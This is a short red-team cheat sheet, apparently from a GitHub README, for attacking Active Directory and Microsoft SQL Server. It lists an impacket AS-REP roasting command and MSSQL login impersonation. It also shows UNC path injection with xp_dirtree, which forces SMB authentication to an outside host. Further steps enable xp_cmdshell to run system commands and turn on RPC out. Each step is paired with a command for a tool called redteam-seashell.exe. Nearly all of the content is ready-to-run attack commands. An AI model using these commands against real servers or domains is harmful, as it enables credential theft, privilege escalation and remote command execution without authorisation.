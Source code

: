 * AS-REP roast
```bash
impacket-GetNPUsers -request -dc-ip <dc> <domain>/<user> -hashes ':<ntlm>'
```

### MSSQL

* impersonation
list user
```mssql
SELECT name FROM sys.server_principals WHERE type_desc != 'SERVER_ROLE';
```

```cmd (redteam-seashell.exe)
SEA> sysusers
```

impersonate
```mssql
EXECUTE AS LOGIN = '<sysuser>';
```

```cmd (redteam-seashell.exe)
SEA> impersonate <sysuser>
```

* UNC Path Injection

force SMB access to the MSSQL server
```mssql
EXEC master..xp_dirtree "\\192.168.1.1\test";
```

```cmd (redteam-seashell.exe)
.\redteam-seashell.exe
SEA> unc \\192.168.1.1\test
```

* Command Execution

1. setup `xp_cmdshell`
```mssql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

```cmd (redteam-seashell.exe)
SEA> xpenable
```

2. execute command
```mssql
EXEC xp_cmdshell '<command>'
```

```cmd (redteam-seashell.exe)
SEA> xpcmd <command>
```

* Enable RPC

enable RPC for specified host
```mssql
EXEC sp_serveroption '<host>','rpc out','true';
```

